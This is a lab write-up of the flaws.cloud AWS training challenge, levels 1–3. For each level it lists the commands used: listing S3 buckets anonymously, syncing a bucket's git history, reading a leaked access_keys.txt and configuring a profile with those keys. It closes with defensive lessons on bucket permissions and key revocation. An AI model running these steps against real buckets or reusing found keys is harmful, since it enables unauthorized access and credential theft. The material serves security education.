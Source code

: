 ## Notes on Flaws.cloud

### Website: [Flaws.Cloud](http://flaws.cloud/)

#### Level 1

- **Description**: This level promises an enjoyable challenge. Your task is to locate the first sub-domain.
  
- **Hints**: 
  - Visit [Hint 1](http://flaws.cloud/hint1.html)
  - Additional hint available at [Hint 2](http://flaws.cloud/hint2.html)
  
- **Commands Used**:
  ```
  nslookup flaws.cloud
  nslookup flaws.cloud.s3.amazonaws.com
  aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
  aws s3 cp s3://flaws.cloud/secret-dd02c7c.html - --no-sign-request --region us-west-2
  ```

- **Summary of Findings**: 
  - Discovered loose permissions facilitating access to files and directories.
  - Extracted a secret file revealing further insights.

#### Level 2

- **Description**: The next level resembles the previous one, albeit with a twist. Access to your own AWS account (free tier) is required.

- **Hints**: 
  - Refer to [Hint 1](http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/hint1.html)

- **Commands Used**:
  ```
  aws s3 --profile YOUR_ACCOUNT ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
  ```

- **Summary of Findings**:
  - Highlighted the importance of securing S3 bucket permissions for public websites.
  - Demonstrated the consequences of granting excessive access.

#### Level 3

- **Description**: Similar to the previous levels, yet with a slight deviation. Your objective now is to discover your first AWS key.

- **Hints**:
  - See [Hint 1](http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html)

- **Commands Used**:
  ```
  aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ --region us-west-2
  aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
  git log
  git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
  ls
  cat access_keys.txt
  aws configure --profile flaws
  aws --profile flaws s3 ls
  ```

- **Summary of Findings**:
  - Uncovered sensitive information, including AWS access keys.
  - Demonstrated the importance of securing keys and revoking compromised access.

### Lessons Learned:

- **Level 1**: Be cautious of loose permissions on S3 buckets, which may inadvertently expose sensitive data.
- **Level 2**: Properly manage access permissions for S3 buckets hosting public websites to prevent unauthorized access.
- **Level 3**: Always revoke compromised or leaked keys promptly. Limit access to only necessary resources to minimize security risks.
